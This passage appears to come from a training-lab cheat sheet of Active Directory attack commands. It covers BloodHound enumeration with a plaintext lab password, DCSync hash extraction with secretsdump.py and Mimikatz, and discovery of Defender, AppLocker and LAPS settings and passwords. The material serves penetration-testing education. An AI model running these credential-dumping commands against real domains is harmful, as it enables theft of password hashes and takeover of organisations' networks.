 > Used to perform a recursive search (`-PU`) for users with nested permissions using valid credentials. Performed from a Linux-based host.

`sudo bloodhound-python -u 'forend' -p 'Klmcargo2' -ns 172.16.5.5 -d inlanefreight.local -c all`

> Executes the python implementation of BloodHound (`bloodhound.py`) with valid credentials and specifies a name server (`-ns`) and target Windows domain (`inlanefreight.local`) as well as runs all checks (`-c all`). Runs using valid credentials. Performed from a Linux-based host.

**DCSync**

`Get-DomainUser -Identity adunn | select samaccountname,objectsid,memberof,useraccountcontrol |fl`

> PowerView tool used to view the group membership of a specific user (`adunn`) in a target Windows domain. Performed from a Windows-based host.

`$sid= "S-1-5-21-3842939050-3880317879-2865463114-1164" Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} | select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl`

> Used to create a variable called SID that is set equal to the SID of a user account. Then uses PowerView tool `Get-ObjectAcl` to check a specific user's replication rights. Performed from a Windows-based host.

`secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5 -use-vss`

> Impacket tool sed to extract NTLM hashes from the NTDS.dit file hosted on a target Domain Controller (`172.16.5.5`) and save the extracted hashes to an file (`inlanefreight_hashes`). Performed from a Linux-based host.

`mimikatz # lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator`

> Uses `Mimikatz` to perform a `dcsync` attack from a Windows-based host.

**Enumerating Security Controls**

`Get-MpComputerStatus`

> PowerShell cmd-let used to check the status of `Windows Defender Anti-Virus` from a Windows-based host.

`Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections`

> PowerShell cmd-let used to view `AppLocker` policies from a Windows-based host.

`$ExecutionContext.SessionState.LanguageMode`

> PowerShell script used to discover the `PowerShell Language Mode` being used on a Windows-based host. Performed from a Windows-based host.

`Find-LAPSDelegatedGroups`

> A `LAPSToolkit` function that discovers `LAPS Delegated Groups` from a Windows-based host.

`Find-AdmPwdExtendedRights`

> A `LAPSTookit` function that checks the rights on each computer with LAPS enabled for any groups with read access and users with `All Extended Rights`. Performed from a Windows-based host.

`Get-LAPSComputers`

> A `LAPSToolkit` function that searches for computers that have LAPS enabled, discover password expiration and can discover randomized passwords. Performed from a Windows-based host.
